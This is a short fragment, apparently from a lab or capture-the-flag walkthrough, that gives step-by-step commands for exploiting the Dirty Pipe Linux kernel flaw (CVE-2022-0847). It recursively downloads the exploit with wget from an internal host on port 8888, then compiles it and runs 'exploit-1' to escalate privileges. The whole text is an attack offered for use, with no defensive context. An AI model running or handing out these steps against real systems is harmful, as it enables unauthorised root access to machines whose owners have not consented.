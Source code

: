 - Install dirty pipe on machine
```
wget -r http://172.16.9.3:8888/linux/CVE-2022-0847-DirtyPipe-Exploits
```
- get into folder
- and run the next commands
```
chmod +x compile.sh
./compile.sh
./exploit-1
```